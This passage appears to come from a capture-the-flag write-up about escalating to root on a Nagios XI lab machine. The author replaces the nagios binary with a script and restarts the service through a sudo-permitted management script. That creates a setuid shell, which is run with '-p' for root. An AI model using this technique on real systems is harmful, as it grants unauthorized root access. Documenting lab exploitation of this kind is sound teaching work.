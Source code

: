 I’ll copy that to nagios, and set the permissions so that it’s executable:
```
nagios@monitored:/usr/local/nagios/bin$ cp /tmp/x.sh nagios
nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios
```

Now I’ll restart the service:
```
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.
```
It fails because this is not a valid service, but it still ran:
```
nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/0xdf 
-rwsrwsrwx 1 root root 1234376 May  9 08:33 /tmp/0xdf

nagios@monitored:/usr/local/nagios/bin$ /tmp/0xdf -p
0xdf-5.1#
```
Then we can get the root shell.